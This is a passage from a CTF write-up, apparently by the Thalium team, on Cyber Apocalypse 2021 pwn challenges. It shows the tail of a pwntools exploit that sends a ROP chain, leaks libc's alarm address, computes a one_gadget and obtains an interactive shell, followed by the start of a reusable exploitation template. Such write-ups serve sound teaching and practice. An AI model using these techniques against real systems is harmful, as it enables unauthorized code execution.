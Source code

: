 ```python

   ropchain += 64*p64(0)

   p.send(ropchain)

   # Read libc alarm address
   data = p.recv(8)
   assert(len(data) == 0x8)

   libc_base = unpack('Q', data)[0] - libc.symbols['alarm']
   one_gadget = libc_base + 0x4f432
   p.send(p64(one_gadget))

   p.interactive()
```

We have a shell:

![fig_close_the_door_win](/posts/img/Cyber_Apocalypse_2021-close_the_door_win.png)


## Conclusion

These pwn challenges were fun but not that complicated, at least a good start for begginers to practice linux exploitation.

The Thalium team would like to thank the organizers for this exciting and well-balanced CTF.



## Appendix

### Template script for exploitation based on [pwntools](https://github.com/Gallopsled/pwntools)

Here is the script we used. If we ever improve it, we may publish it on our [CTF repository on github](https://github.com/thalium/thalium_ctf).
```python
from pwn import gdb, context, log, ELF, remote, process, p64, u64
from os import listdir, path
import sys

# Specify the default path of library (use ldd on a binary if needed)
PATH_LIBS = "/usr/lib64/" 


def set_context32():
    context.arch = "i386"  # amd64
    context.bits = 32
    context.endian = "little"
    context.os = "linux"
    context.log_level = "info"
    context.terminal = ["gnome-terminal", "-x", "bash", "-c"]


def set_context64():
    context.arch = "amd64"  # amd64
    context.bits = 64
    context.endian = "little"
    context.os = "linux"
    context.log_level = "info"
    context.terminal = ["gnome-terminal", "-x", "bash", "-c"]


class Mode:
```